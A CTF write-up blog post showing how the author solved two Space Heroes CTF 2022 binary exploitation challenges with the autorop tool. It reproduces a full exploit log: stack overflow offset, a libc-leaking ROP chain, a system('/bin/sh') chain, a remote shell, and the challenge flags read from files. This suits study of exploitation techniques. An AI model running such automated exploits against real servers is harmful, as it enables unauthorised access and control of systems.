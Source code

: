 ```yaml
---
layout: post
title:  "Vader and Rule of Two (PWN Challenge Writeup) -- Space Heroes CTF 2022"
date:   2022-04-04
image: spaceheroes.png
---
```

<p class="intro"><span class="dropcap">F</span>ITSEC Team from <a href="https://floridatech.campuslabs.com/engage/organization/fitsec">Florida Tech</a> has done an excellent job preparing this CTF. These two challenges have one thing in common and that is that they can be solved using automated tools! This is a UNINTENDED Solution.</p>


### This is a UNINTENDED Solution for this two challenges.


Challenges Description:

<figure>
        <img src="/assets/img/vader.png" alt="" />
        <figcaption>PWN Challenges</figcaption>
</figure>

If you see close, you note that both challenge has the same address, same port, and most important, the same binary!!

I will use an automated tool for CTF PWN resolution challenges called [AUTOROP](https://autorop.readthedocs.io/en/latest/)


```bash
┌──(leonuz㉿sniper)-[~[~/SpaceHeroesCTF/PWN/Vader]]
└─$ autorop ./vader 0.cloud.chals.io 20712 
[*] '/home/leonuz/CTFs/SpaceHeroesCTF/vader'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Produced pipeline: Classic(Corefile(), OpenTarget(), Puts(False, ['__libc_start_main', 'puts']), Auto(), SystemBinSh())
[*] Pipeline [1/5]: Corefile()
[+] Starting local process './vader': pid 9817
[*] Process './vader' stopped with exit code -11 (SIGSEGV) (pid 9817)
[+] Receiving all data: Done (0B)
[+] Parsing corefile...: Done
[*] '/home/leonuz/CTFs/SpaceHeroesCTF/vader'/core.9817'
    Arch:      amd64-64-little
    RIP:       0x4015f9
    RSP:       0x7ffe4eb5c7c8
    Exe:       '/home/leonuz/CTFs/SpaceHeroesCTF/vader' (0x400000)
    Fault:     0x6161616161616166
[*] Fault address @ 0x6161616161616166
[*] Offset to return address is 40
[*] Pipeline [2/5]: OpenTarget()
[+] Opening connection to 0.cloud.chals.io on port 20712: Done
[*] Pipeline [3/5]: Puts(False, ['__libc_start_main', 'puts'])
[+] Opening connection to 0.cloud.chals.io on port 20712: Done
[*] Loaded 20 cached gadgets for './vader'
[*] 0x0000:         0x401016 ret
    0x0008:         0x40165b pop rdi; ret
    0x0010:         0x404ff0 [arg0] rdi = __libc_start_main
    0x0018:         0x401030 puts
    0x0020:         0x401016 ret
    0x0028:         0x40165b pop rdi; ret
    0x0030:         0x405018 [arg0] rdi = got.puts
    0x0038:         0x401030 puts
    0x0040:         0x401016 ret
    0x0048:         0x4015b5 main()
[*] leaked __libc_start_main @ 0x7f1409a81720
[*] leaked puts @ 0x7f1409acfde0
[*] Pipeline [4/5]: Auto()
[*] Searching for libc based on leaks using libc.rip
[!] 8 matching libc's found, picking first one
[*] Downloading libc
[*] '/home/leonuz/CTFs/SpaceHeroesCTF/.autorop.libc'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Pipeline [5/5]: SystemBinSh()
[*] Loaded 191 cached gadgets for '.autorop.libc'
[*] 0x0000:         0x401016 ret
    0x0008:         0x40165b pop rdi; ret
    0x0010:   0x7f1409be2962 [arg0] rdi = 139724039530850
    0x0018:   0x7f1409aa3850 system
    0x0020:         0x401016 ret
    0x0028:         0x4015b5 main()
[*] Switching to interactive mode
MMMMMMMMMMMMMMMMMMMMMMMMMMMWXKOxdolc;',;;::llclodkOKNWMMMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMWXOoc;::::::;;;clkKNXxlcccc:::::cdOXWMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMWMMNkc,;clccc;,...    .:c:. ...,;:cccc:,,ckNMWMMMMMMMMMMMMMDARK
MMMMMMMMMMMMMMMMMMXx;;lol:'            .'.           .':loc',xNMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMW0:;dxlcc'            .dO;             .::lxo':0MMMMMMMMMMMMS1D3
MMMMMMMMMMMMMMMWk':Ol;x0c           ';oKK: .            cOo,dk;,OMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMO':Ol:0Xc            l0OXNc.l'            cKO;o0;,KMMMMMMMMMMMMOF
MMMMMMMMMMMMMMX:'Oo:KMd             o0ONWc'x,            .xM0:xk.lWMMMMMMMMMMMMM
MMMMMMMMMMMMMMx.okcOMMk.            o0OWMl'x;            .xMMklOc'OMMMMMMMMMMTH3
MMMMMMMMMMMMMWc'xldWMMWKx'          oOkNMo,x;          'oONMMWdod.oMMMMMMMMMMMMM
MMMMMMMMMMMMMK;:dl0MMMMMXc          lOxNMo'd;          lWMMMMMOld;:NMMMMMMMFORC3
MMMMMMMMMMMMMO':ldWMMMMWo           ckxNMd,d;          .kMMMMMNlc;,KMMMMMMMMMMMM
MMMMMMMMMMMMMk';cxMMMMMWOl:,.       cxxNMx;d;       .,;l0MMMMMWdc;'0MMMMMMMMMMMM
MMMMMMMMMMMMMx',cOMMMWXOxoc;.       cxxNMkcx:       .cdkOXWMMMMd:;'0MMMMMMMMMMMM
MMMMMMMMMMMMMx';;l0xl,.    .       ,0xdWMOcOx.           .,lkXWd:;'OMMMMMMMMMMMM
MMMMMMMMMMMMMd.ld:'    .',;::ccc:;,kWxxWMOlONo',:cc::,'...   'ood:'OMMMMMMMMMMMM
MMMMMMMMMMMMWl.xK:            .';coOXo:xxo:kKkl:;'.           .oXl.OMMMMMMMMMMMM
MMMMMMMMMMMM0';d'       .......',;;''.    ..'',;,'......        lo.lWMMMMMMMMMMM
MMMMMMMMMMMX:,l'        ..      .',:;lo. ;d:;:,..     ..         c:.xWMMMMMMMMMM
MMMMMMMMMMNc,o,                     '0XxoOWd.                    .l:,0MMMMMMMMMM
MMMMMMMMMWd,o;                      .xMNXWWc                      .o::XMMMMMMMMM
MMMMMMMMMk,oc                    .. .kXkdONc ..                    'd;oWMMMMMMMM
MMMMMMMM0;lo.         .;:,'....  'cxxo;'''cxxo:. ......';'          :x:xWMMMMMMM
MMMMMMMK:lx.           'xNNXXXKd;;::,.,l:..':c;,;xKKKXX0l.           oxcOMMMMMMM
MMMMMMXcck,         ..   ,cloool:. .lc,,'.cx, .';looooc.             .kxlKMMMMMM
MMMMMWoc0c      .'. .cdll;..',;lkOxxl:xOOxclddkkl:,''.';:cl'  ..      :KddNMMMMM
MMMMWxc0x.       :o; .xWWKkdodkKWMMKlxWMMMKdOMMWXkdoloONMXc .cc.      .dXdxWMMMM
MMMMOcOK;         'xd.'0MMMMMMMXk0Xc'dKXXKO:,0KkKWMMMMMMWo.;xl.        ,0XxOWMMM
MMM0lkNo           .xO;cXWWMWXd:dx; ;d;,:l:  ;xd:l0WMMMWx,oO;           oWKx0MMM
MMKokW0'            .dKdOWMNx;ckd:. lK,.cOd..lcdO:'oXMMKokO,            .OWKkXMM
MXdxN0;              .kWNWXc.,d;.do lK,.:kd.,0l.;o,.:KWNNK,              ;KW0kNM
NxdOc.                ,0MMd..;l''Oo lK,.;kd.;Ko .,,. lWMXc                'xXOOW
xd0d.                  ;KMO,.c0ocXk;xXocxK0cdNOcol'''dWWd.                 .o0kO
,xWX:                   :XXc.:oddxxxxxxddxxxxkkOko;.:KNd.                  'kN0l
.,dOkdoc:,'..            .'..,lxkox0OO0kxOOxOOddxl,..,,.              ..,:lkKOl.
x,...',;:cc::;,,'''...        .,;cdO0KKKXXKkdo:,,'.        ...'',,,,;;clllc;'..;
MNKOxdoolcc::;;;;. ..             ..,;:clc;..              ...,;;;,,'',;;:clox0N
MMMMMMMMMMMMMMMMW0;                                          'kKXXNNNWWMMMMMMMMM
MMMMMMMMMMMMMMMMMMNd,..          ........                .. .kWMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMWKxl;..       'okOOko:,..     ..  ....';lKWMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMXkdc'....   .,cc:,,'..  .'o0Oo:;:cokXMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMMMWXkdoc;''''',,;;:::::::ccllclx0NMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMMMMMMMWXkol:;,'.''''....,cokKWMMMMMMMMMMMMMMMMMMMMMMMMMMMM


 When I left you, I was but the learner. Now I am the master >>> $ 

 ```

At this point, we can see the prompt `$` which indicate that the machine has been pwn. Let's list the directory looking for the flags. 


```bash
 When I left you, I was but the learner. Now I am the master >>> $ ls
-
banner_fail
bin
boot
dev
etc
flag.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
service.conf
sith.txt
srv
sys
tmp
usr
vader
var
wrapper
$ cat flag.txt
shctf{th3r3-1s-n0-try}
$ cat sith.txt
shctf{W1th0ut-str1f3-ur-v1ctory-has-no-m3an1ng}
$ 
[*] Interrupted
[*] Closed connection to 0.cloud.chals.io port 20712
[*] Closed connection to 0.cloud.chals.io port 20712
                                                                                                                                                                                            
```
flag for "Vader" Challenge is inside of flag.txt
#### shctf{th3r3-1s-n0-try}

flag for "Rule of two" Challenge is inside of sith.txt
#### shctf{W1th0ut-str1f3-ur-v1ctory-has-no-m3an1ng}

---

#### More Info about automatic tools for PWN here 
- [AUTOROP](https://github.com/mariuszskon/autorop)
- [ZERATOOL](https://github.com/ChrisTheCoolHut/Zeratool)

- - -
### Final Notes.

An excellent engineering professor taught me that **"As an engineers we can't know ALL the answers, but we should know how to look for them"**.

- - -

Thanks [FITSEC Team](https://floridatech.campuslabs.com/engage/organization/fitsec) for the excellent CTF.

For fun and knowledge, always think out of the box! :)


